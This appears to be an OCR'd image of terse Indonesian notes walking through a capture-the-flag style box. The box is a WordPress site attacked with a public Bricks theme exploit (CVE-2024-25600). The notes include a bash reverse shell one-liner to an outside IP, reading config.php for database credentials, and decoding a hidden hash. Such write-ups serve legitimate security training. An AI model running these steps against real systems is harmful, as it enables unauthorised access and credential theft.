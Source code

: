 1. scan nmap -> 22 80 lain kebuka
2. fuzz -> itu wp ternyata ->
3. wpscan --url namaweb --disable-tls-checks
4. check di bricks version nya -> di style keknya -> wp bricks versi exploit -> https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT
5. run aja exploitnya -> kalau error butuh module tinggal pip3 install namamodule
6. bash -c 'exec sh -i >& /dev/tcp/10.9.0.169/6060 0>&1' -> pas udah di shell
7. di situ lgsg ada file cat aja -> cat config.php -> disitu ada creds phpmyadmin   
8. coba -> systemctl list-units --type=service --state=running -> systemctl cat ubuntu.service
9. cd /lib/NetworkManager -> cat inet.conf -> head inet.conf
10. decrypt hash nya -> from hex, from base64, from base64 -> split jadi 2 kan sama itu
11. ke blockchair -> coba masukin tadi -> nanti cek selengkapnya yg transaksi pertama 
12. cek privacy ada issue -> cek senders -> copas id senders cari gugel -> cari sekurity apa gitu -> ketemu
